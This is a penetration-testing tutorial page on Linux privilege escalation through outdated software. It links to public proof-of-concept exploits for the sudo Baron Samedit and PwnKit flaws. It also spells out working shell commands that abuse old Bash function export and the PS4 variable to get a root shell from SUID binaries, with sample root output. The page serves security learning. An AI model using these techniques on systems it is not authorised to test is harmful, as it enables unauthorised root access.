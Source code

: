```yaml
---
description: >-
  Some common services run with elevated privileges, and can be dangerous if set
  up incorrectly or are outdated
---
```


# Outdated Versions

## Default SUID binaries

There are some common programs that require the SUID bit to work, like sudo. There is a lot of research into finding vulnerabilities in these programs specifically for Privilege Escalation. You can look up the version of a program with a term like "exploit" or "CVE" to find known exploits for it. [GitHub ](https://github.com/)and [ExploitDB](https://www.exploit-db.com/) are is great resources where Proof of Concepts are often shared, so make sure to search there if you know the program is vulnerable.&#x20;

Here are a few easily exploitable vulnerabilities in common outdated programs:

### Sudo < 1.9.5p2 (CVE-2021-3156)

The `sudoedit` program has a Heap-Based Buffer Overflow vulnerability. For all the technical details see [this writeup](https://datafarm-cybersecurity.medium.com/exploit-writeup-for-cve-2021-3156-sudo-baron-samedit-7a9a4282cb31).&#x20;

A simple proof-of-concept script was quickly made in C that you likely need to compile on the target:

{% embed url="https://github.com/CptGibbon/CVE-2021-3156" %}
An exploit of Sudo Baron Samedit written in C
{% endembed %}

If compilers like `gcc` are not available on the target, you could try the Python version:

{% embed url="https://github.com/worawit/CVE-2021-3156" %}
A few versions of the Sudo Baron Samedit exploit written in Python
{% endembed %}

### PwnKit (CVE-2021-4034)

Polkit's `pkexec` program is another SUID binary. It had a vulnerability with the PATH variable allowing you to load an arbitrary shared library, and execute any code you want. For all the technical details see [this writeup](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).

A proof-of-concept was made in C that you need to compile and run on the target:

{% embed url="https://github.com/arthepsy/CVE-2021-4034" %}
An exploit of PwnKit written in C
{% endembed %}

If compilers like `gcc` are not available on the target, you could try the Python version:

{% embed url="https://github.com/joeammond/CVE-2021-4034" %}
An exploit of PwnKit written in Python
{% endembed %}

## Old Bash Tricks

Bash is by far the most common shell, and has had a few updates to change certain features. In previous versions of bash, there were some tricks to exploit SUID binaries with functions and environment variables. To check the version of bash use:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ /bin/bash --version
</strong>GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
</code></pre>

### Bash < 4.2-048 (absolute path overwrite)

In these older bash versions, it was possible to define a function with the name of a full path to a program. This way, if you would specify the full path to that program, it would instead execute the function you defined with the same name. This makes it possible to overwrite absolute paths like `/usr/sbin/service` ran by SUID binaries, by defining a malicious function with the same name:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ function /usr/sbin/service { /bin/bash -p; }  # Define function to get a shell
</strong><strong>$ export -f /usr/sbin/service  # Export function
</strong><strong>$ ./vulnerable
</strong># id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>

### Bash < 4.4 (PS4 variable)

When bash is in debug mode, it has the `PS4` variable which provides a custom prompt when a command is executed by the program. But the variable can run arbitrary commands with the `$()` command substitution syntax. You can set bash in debug mode with `SHELLOPTS=xtrace`, and then just set the `PS4` variable. Getting a direct shell with `/bin/bash -p` has some weird output, so I recommend just copying /bin/bash to another location and setting the SUID bit on it, so you can later run it for your root shell:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/bash; chmod +xs /tmp/bash)' ./vulnerable
</strong><strong>$ /tmp/bash -p
</strong># id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>
